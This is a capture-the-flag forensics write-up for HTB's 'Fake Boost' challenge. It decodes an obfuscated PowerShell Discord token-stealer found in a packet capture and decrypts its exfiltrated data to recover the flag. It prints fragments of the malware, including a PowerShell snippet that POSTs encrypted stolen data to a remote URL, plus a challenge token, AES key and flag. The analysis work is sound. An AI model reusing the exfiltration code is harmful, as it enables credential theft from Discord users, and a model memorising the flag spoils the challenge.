


# Fake Boost

> In the shadow of The Fray, a new test called ""Fake Boost"" whispers promises of free Discord Nitro perks. It's a trap, set in a world where nothing comes without a cost. As factions clash and alliances shift, the truth behind Fake Boost could be the key to survival or downfall. Will your faction see through the deception? KORP™ challenges you to discern reality from illusion in this cunning trial.
> 
> Files: [capture.pcapng](forensics_fake_boost/capture.pcapng)

**Writeup by:** Stig Rune Grønnestad

- [Fake Boost](#fake-boost)
  - [Recon](#recon)
  - [Decompiling](#decompiling)
  - [Recon](#recon-1)
  - [Decode](#decode)
  - [Flag](#flag)

## Recon

We are given a `pcap` file, which is a packet capture file. We can open this in Wireshark to see what's going on.



Digging around the packets while following TPC-streams I found the following HTTP GET request.



[tcp_stream](tcp_stream)

Looking at the data we can see that there is some obfuscated shell-script-shenanigans going on, let's try to decompile it using python.

## Decompiling

[decompile.py](decompile.py)

```python
import base64

# Input string
# 		Original: $jozeq3n = "9ByXkACd1BHd19UL [.. TRUNCATED ..]"
jozeq3n = "9ByXkACd1BHd19UL [.. TRUNCATED ..]"

# Reverse the string
# 		Original: $s0yAY2gmHVNFd7QZ = $jozeq3n.ToCharArray() ; [array]::Reverse($s0yAY2gmHVNFd7QZ) ;
s0yAY2gmHVNFd7QZ = jozeq3n[::-1]

# Convert the string from base64
#		Original: $LOaDcODEoPX3ZoUgP2T6cvl3KEK = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($s0yAY2gmHVNFd7QZ))
decoded_bytes = base64.b64decode(s0yAY2gmHVNFd7QZ)
LOaDcODEoPX3ZoUgP2T6cvl3KEK = decoded_bytes.decode("utf-8")
print(LOaDcODEoPX3ZoUgP2T6cvl3KEK)
```

```bash
└─$ python decompile.py > bad_payload.sh
```

[bad_payload.sh](bad_payload.sh)

There is a lot of juicy stuff going on here.

```bash
function Steal { # [...]
function GenerateDiscordNitroCodes { # [...]
function Get-DiscordUserInfo { # [...]
function Create-AesManagedObject($key, $IV, $mode) { # [...]
function Encrypt-String($key, $plaintext) { # [...]
```

The only real clue I could find towards the flag though was a unused variable that looks like a base64 string named `$part1`.

```bash
$part1 = "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf"
```

Decompiling this gives the start of the flag at least.

https://gchq.github.io/CyberChef

`HTB{fr33_N17r0G3n_3xp053d!_`

## Recon

Back to recon in Wireshark. I suspected that the exploitee would at some point send a http request (if they clicked the free nitro link). I found the following POST request. The exploit uses the following powershell script to send the data to the server.

```bash
try {
    $headers = @{
        'Content-Type' = 'text/plain'
        'User-Agent' = 'Mozilla/5.0'
    }
    Invoke-RestMethod -Uri $URL -Method Post -Headers $headers -Body $encryptedData
}
catch {}
```

By filtering on `http.request.method == "POST"` I found the following POST request.

[poor_mans_data](poor_mans_data.http_post)

Truncated payload:
```http
bEG+rGcRyYKeqlzXb0QVVRvFp5E9vmlSSG3pvDTAGoba05Uxvepwv++0uWe1Mn4LiIInZiNC/ES1tS7Smzmbc99Vcd9h51KgA5Rs1t8T55Er5ic4FloBzQ7tpinw99kC380WRaWcq1Cc8iQ6lZBP/yqJuLsfLTpSY3yIeSwq8Z9tusv5uWvd9E9V0Hh2Bwk5LDMYnywZw64hsH8yuE/u/lMvP4gb+OsHHBPcWXqdb4DliwhWwblDhJB4022UC2eEMI0fcHe1xBzBSNyY8xqpoyaAaRHiTxTZaLkrfhDUgm+c0zOEN8byhOifZhCJqS7tfoTHUL4Vh+1AeBTTUTprtdbmq3YUhX6ADTrEBi5gXQbSI5r1wz3r37A71Z4pHHnAoJTO0urqIChpBihFWfYsdoMmO77vZmdNPDo1Ug2jynZzQ/NkrcoNArBNIfboiBnbmCvFc1xwHFGL4JPdje8s3cM2KP2EDL3799VqJw3lWoFX0oBgkFi+DRKfom20XdECpIzW9idJ0eurxLxeGS4JI3n3jl4fIVDzwvdYr+h6uiBUReApqRe1BasR8enV4aNo+IvsdnhzRih+rpqdtCTWTjlzUXE0YSTknxiRiBfYttRulO6zx4SvJNpZ1qOkS1UW20/2xUO3yy76Wh9JPDCV7OMvIhEHDFh/F/jvR2yt9RTFId+zRt12Bfyjbi8ret7QN07dlpIcppKKI8yNzqB4FA==
```

In the shell script the call to `Create-AesManagedObject` is a bit weird, it only takes in the key, so `$IV` and `$mode` are not set. Also in the check for `$mode` it uses `=` instead of `-eq`. This is a bug in the script, and the mode is set to `CBC` by default.

The default value for `$IV` is a zero-filled array of the same length as the block size of the algorithm. The block size is set to 128, and the key size is set to 256. Before sending the data though we can see that `$aesManaged.IV` is prepended to the encrypted data.

Code re-arranged and truncated for brevity:

```bash
$aesManaged = Create-AesManagedObject $key
$aesManaged.BlockSize = 128
$aesManaged.KeySize = 256

function Create-AesManagedObject($key, $IV, $mode) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"

    if ($mode="CBC") { $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC }
    elseif ($mode="CFB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CFB}
    elseif ($mode="CTS") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CTS}
    elseif ($mode="ECB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::ECB}
    elseif ($mode="OFB"){$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::OFB}
	# [.. TRUNCATED ..]
}

[byte[]] $fullData = $aesManaged.IV + $encryptedData
```

Information so far.

```python
AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
MODE = "CBC"
BLOCK_SIZE = 128
KEY_SIZE = 256
TOTAL_PAYLOAD = "bEG+rGcRyYKeqlzXb0QVVRvFp5E9vmlSSG3pvDTAGoba05Uxvepwv++0uWe1Mn4LiIInZiNC/ES1tS7Smzmbc99Vcd9h51KgA5Rs1t8T55Er5ic4FloBzQ7tpinw99kC380WRaWcq1Cc8iQ6lZBP/yqJuLsfLTpSY3yIeSwq8Z9tusv5uWvd9E9V0Hh2Bwk5LDMYnywZw64hsH8yuE/u/lMvP4gb+OsHHBPcWXqdb4DliwhWwblDhJB4022UC2eEMI0fcHe1xBzBSNyY8xqpoyaAaRHiTxTZaLkrfhDUgm+c0zOEN8byhOifZhCJqS7tfoTHUL4Vh+1AeBTTUTprtdbmq3YUhX6ADTrEBi5gXQbSI5r1wz3r37A71Z4pHHnAoJTO0urqIChpBihFWfYsdoMmO77vZmdNPDo1Ug2jynZzQ/NkrcoNArBNIfboiBnbmCvFc1xwHFGL4JPdje8s3cM2KP2EDL3799VqJw3lWoFX0oBgkFi+DRKfom20XdECpIzW9idJ0eurxLxeGS4JI3n3jl4fIVDzwvdYr+h6uiBUReApqRe1BasR8enV4aNo+IvsdnhzRih+rpqdtCTWTjlzUXE0YSTknxiRiBfYttRulO6zx4SvJNpZ1qOkS1UW20/2xUO3yy76Wh9JPDCV7OMvIhEHDFh/F/jvR2yt9RTFId+zRt12Bfyjbi8ret7QN07dlpIcppKKI8yNzqB4FA=="
IV = TOTAL_PAYLOAD[0:16]
ENCRYPTED_DATA = TOTAL_PAYLOAD[16:]
```

## Decode

[decode.py](decode.py)

```bash
└─$ python decode.py
Decrypted message: [
    {
        "ID":  "1212103240066535494",
        "Email":  "YjNXNHIzXzBmX1QwMF9nMDBkXzJfYjNfN3J1M18wZmYzcjV9",
        "GlobalName":  "phreaks_admin",
        "Token":  "MoIxtjEwMz20M5ArNjUzNTQ5NA.Gw3-GW.bGyEkOVlZCsfQ8-6FQnxc9sMa15h7UP3cCOFNk"
    },
    {
        "ID":  "1212103240066535494",
        "Email":  "YjNXNHIzXzBmX1QwMF9nMDBkXzJfYjNfN3J1M18wZmYzcjV9",
        "GlobalName":  "phreaks_admin",
        "Token":  "MoIxtjEwMz20M5ArNjUzNTQ5NA.Gw3-GW.bGyEkOVlZCsfQ8-6FQnxc9sMa15h7UP3cCOFNk"
    }
]
```

The email looks like a base64 string, decoding it using CyberChef like before yields `b3W4r3_0f_T00_g00d_2_b3_7ru3_0ff3r5}`.

## Flag

Part1: `HTB{fr33_N17r0G3n_3xp053d!_`

Part2: `b3W4r3_0f_T00_g00d_2_b3_7ru3_0ff3r5}`

Combined: `HTB{fr33_N17r0G3n_3xp053d!_b3W4r3_0f_T00_g00d_2_b3_7ru3_0ff3r5}`